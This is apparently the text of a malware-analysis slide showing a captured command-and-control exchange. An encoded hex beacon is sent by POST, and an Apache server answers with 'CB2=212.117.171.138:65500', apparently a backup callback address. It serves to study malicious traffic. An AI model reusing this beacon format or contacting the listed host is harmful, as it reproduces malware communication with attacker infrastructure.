

THE HORROR!!
POST/?c799959d9582d499959791949482d19995939782d2999790969182c699959c949c92959c82c0999582d79995969c959d9d9482c199e79ef8f3edeae0ebf3f7f8f0e1e9f4f893ccd
dddcccad3c28ac1dcc182c399cdcacdd0a4 HTTP/1.1
HTTP/1.1 200 OK
Date: Wed, 10 Aug 2011 09:41:53 GMT
Server: Apache/2.2.8 (Fedora) DAV/2 PHP/5.2.6 mod\_ssl/2.2.8 OpenSSL/0.9.8g
X-Powered-By: PHP/5.2.6
Content-Length: 26
Connection: close
Content-Type: text/html; charset=UTF-8
CB2=212.117.171.138:65500